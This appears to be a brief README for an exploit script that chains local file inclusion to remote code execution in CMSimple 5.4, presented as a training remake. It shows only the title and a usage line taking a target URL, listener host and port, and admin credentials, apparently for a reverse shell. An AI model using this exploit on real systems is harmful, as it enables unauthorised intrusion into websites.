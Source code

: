 # CMSimple-5.4-LFI --> RCE (Authenticated)

Note : This is a remake made by me for training purposes the original is from S1lver

Usage : main.py <RHOST> <LHOST> <LPORT> <USER> <PASS>
Example : main.py https://target.com 192.168.1.15 1337 admin password
